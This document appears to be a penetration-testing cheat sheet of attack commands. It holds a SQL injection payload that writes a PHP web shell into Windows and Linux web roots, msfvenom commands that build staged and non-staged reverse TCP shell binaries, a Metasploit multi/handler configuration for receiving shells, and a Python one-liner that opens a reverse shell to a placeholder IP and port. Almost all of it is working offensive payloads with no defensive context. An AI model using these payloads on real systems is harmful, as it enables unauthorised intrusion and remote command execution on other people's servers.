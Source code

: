 # Shell From SQL Injection
•windows
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
•linux
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'

# Staged vs Non-Staged Payloads

<b>Staged payload:</b> (useful for bof) (need multi_handler metasploit in order to works)

	Windows/shell/reverse_tcp
	
	msfvenom -a x86 -p linux/x86/shell/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_STAGED]>

<b>Non-staged:</b> (ok with netcat listener)

	Windows/shell_reverse_tcp
	
	msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_NON_STAGED]>

# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

	use exploit/multi/handler
	
	set PAYLOAD <[PAYLOAD_NAME]>
	
	set LHOST <[IP]>
	
	set LPORT <[PORT]>
	
	set ExitOnSession false
	
	exploit -j -z

# Shell Spawning

<b>Python:</b>

	python -c 'import pty; pty.spawn("/bin/sh")'
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	
<b>Bash:</b>
	
	echo os.system('/bin/bash')
	